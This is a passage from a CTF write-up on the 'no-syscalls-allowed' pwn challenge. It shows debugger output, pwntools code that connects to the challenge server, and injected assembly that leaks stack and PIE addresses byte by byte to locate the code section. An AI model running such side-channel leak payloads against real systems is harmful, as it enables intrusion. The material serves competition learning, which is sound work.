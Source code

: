 ```
gef➤  x/s 0x56023f74d040
0x56023f74d040 <flag>:  "flag{I_pwn3d_It}\n"
gef➤  x/20gx $rbp
0x7fff06c41950: 0x0000000000000000      0x00007f4dbd78c0b3
0x7fff06c41960: 0x00007f4dbd9bc620      0x00007fff06c41a48
0x7fff06c41970: 0x0000000100000000      0x000056023f74a1c9
0x7fff06c41980: 0x000056023f74a270      0x9f4b0cefc30c6dde
0x7fff06c41990: 0x000056023f74a0e0      0x00007fff06c41a40
0x7fff06c419a0: 0x0000000000000000      0x0000000000000000
0x7fff06c419b0: 0x60b50167f1cc6dde      0x61d0761e43c26dde
0x7fff06c419c0: 0x0000000000000000      0x0000000000000000
0x7fff06c419d0: 0x0000000000000000      0x0000000000000001
0x7fff06c419e0: 0x00007fff06c41a48      0x00007fff06c41a58
```
So, I started leaking addresses from rbp, with a focus on the sixth byte of each 8-byte address area in order to determine which memory region the address is for. For the second address, that byte was 0x7f, indicating a libc or stack address. Then, for the third address, it was 0x55, indicating a PIE address.
```
byte = hex(get_a_byte('rbp', 0x10+5, 0))
...
[+] Opening connection to no-syscalls-allowed.chal.uiuc.tf on port 1337: Done
[+] Receiving all data: Done (30B)
[*] Closed connection to no-syscalls-allowed.chal.uiuc.tf port 1337
b'== proof-of-work: disabled ==\n'
0.08438754081726074
the bit is 0
01010101
current byte is 0x55
```
I then got the low three nibbles of that PIE address as 098. 
```
byte = hex(get_a_byte('rbp', 0x10, 0))

print('current byte is', byte)

byte = hex(get_a_byte('rbp', 0x10 + 1, 0))

print('current byte is', byte)
```
I then used my PIE leak to get a leak for the beginning of the code section. To do this, I had to make new, slightly edited helper functions, the most notable of which appears at the start of the get_a_bit function to transfer the leak to an intermediary register and perform mathematical operations on it to make it the likely start of code area.:
```
def start_of_code_bit(reg_offset, bit, local):
    if local == 1:
        target = process('./no_syscalls_allowed')
        pid = gdb.attach(target, "\nb *main+160\n set disassembly-flavor intel\ncontinue")
    else:
        target = remote('no-syscalls-allowed.chal.uiuc.tf', 1337)
    payload = asm('''
    mov rbx, QWORD PTR ds:[rbp+0x10];
    sub rbx, 0x98;
    sub rbx, 0x1000;
    mov al, BYTE PTR ds:[rbx+''' + str(reg_offset) + '''];
    xor r11, r11;
    ...
```
I then added some code to leak the first four bytes from this area:
```
header = ''
for i in range(4):
    byte = (start_of_code_byte(i, 0))
```
